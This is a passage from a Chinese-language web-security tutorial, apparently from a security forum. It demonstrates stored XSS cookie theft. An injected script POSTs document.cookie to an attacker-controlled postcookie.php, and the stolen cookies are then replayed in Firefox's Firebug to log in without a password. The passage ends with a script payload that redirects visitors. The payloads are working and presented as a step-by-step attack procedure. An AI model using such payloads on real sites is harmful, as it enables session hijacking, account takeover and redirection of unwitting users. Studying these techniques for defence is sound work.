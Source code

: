 **实践：**  
现在自己的服务器里写一个postcookie.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aaca133eade10f873ade6d6d8b336834ed1181aa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aaca133eade10f873ade6d6d8b336834ed1181aa.png)  
随后到一个存在xss注入的留言板中提交

```html
<script>
var url="http://127.0.0.1/xss_test/postcookie.php";
var data="cookie="+document.cookie;
var nxhr= new XMLHttpRequest();
nxhr.open("POST",url);
nxhr.setRequestHeader("content-type","application/x-www-form-urlencoded");
nxhr.send(data);
</script>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a00343f9ebb4993731b253ae59d5342e32c68467.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a00343f9ebb4993731b253ae59d5342e32c68467.png)  
登录后台进行查看留言信息  
查看时有个空白的留言，这时点击F12查看网页源代码，已经写进去了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eca016acab9eaa4159084b0d1176ba43377ef6bd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eca016acab9eaa4159084b0d1176ba43377ef6bd.png)  
再去自己的服务器中查看cookie.txt文件，已经有数据了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e6728a9ddeee9f3a8583281176b1d4c5cbf22de.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e6728a9ddeee9f3a8583281176b1d4c5cbf22de.png)

**利用cookie进行无密码登录**  
打开登录界面，调出火狐的firebug插件，调至cookie选项卡（注意，如果你的firebug插件没有cookie选项卡，请再安装firecookie插件即可看到）  
然后依次点击cookies-create cookie，随后再弹出的界面中填入两个xss平台获取到的cookie，如图  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d44ff65be21b1ab7a3e3363692800335a27a5a6f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d44ff65be21b1ab7a3e3363692800335a27a5a6f.png)  
这里注意要把我箭头所指的地方勾上，这是设置cookie有效期的地方，不然会在设置完下一秒cookie就失效。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8344ea38a916733d203146e24c09d87a2423f728.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8344ea38a916733d203146e24c09d87a2423f728.png)  
完成之后再次刷新页面，发现已经不是之前的登录界面了，而是登录后的界面。至此，一个从cookie窃取到利用的过程就已完成。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a49ae85df70729170beeedb7f08d534514c81ab5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a49ae85df70729170beeedb7f08d534514c81ab5.png)

### 2.劫持流量实现恶意跳转

这个很简单，就是在网页中想办法插入一句像这样的语句：

```html
<script>window.location.href="http://www.baidu.com";</script>
```
